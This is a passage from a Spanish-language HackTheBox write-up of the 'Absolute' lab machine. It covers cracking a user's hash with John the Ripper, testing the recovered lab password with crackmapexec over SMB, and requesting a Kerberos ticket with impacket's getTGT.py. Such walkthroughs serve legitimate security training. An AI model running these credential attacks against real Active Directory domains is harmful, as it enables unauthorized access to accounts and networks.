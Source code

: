 ![](/assets/images/HTB/Absolute-HackTheBox/8.webp)

Como se puede ver el usuario d.klay es vulnerable y obtengo el hash que voy a craquear a continuación haciendo uso de la herramienta John The Ripper.

![](/assets/images/HTB/Absolute-HackTheBox/9.webp)

Al obtener las credenciales intento probarlas con crackmapexec para saber si podré enumerar los recursos comapartidos en la máquina.

```bash
❯ crackmapexec smb absolute.htb -u 'd.klay' -p 'Darkmoonsky248girl'
SMB         10.10.11.181    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [-] absolute.htb\d.klay:Darkmoonsky248girl STATUS_ACCOUNT_RESTRICTION 
```

Pero no puedo, eso me hace pensar que es probable que solo se pueda usar el protocolo kerberos para autenticarnos, por lo que como último recurso se me ocurre solicitar un TGT válido con las credenciales que ya tengo para poder ganar más acceso.

Para el TGT usaré la utilidad `getTGT.py` de la suite impacket.

![](/assets/images/HTB/Absolute-HackTheBox/10.webp)

Ahora que ya tengo el ticket he de exportarlo a la variable KRB5CCNAME.

`export KRB5CCNAME=/ruta/absoluta/d.klay.ccache`
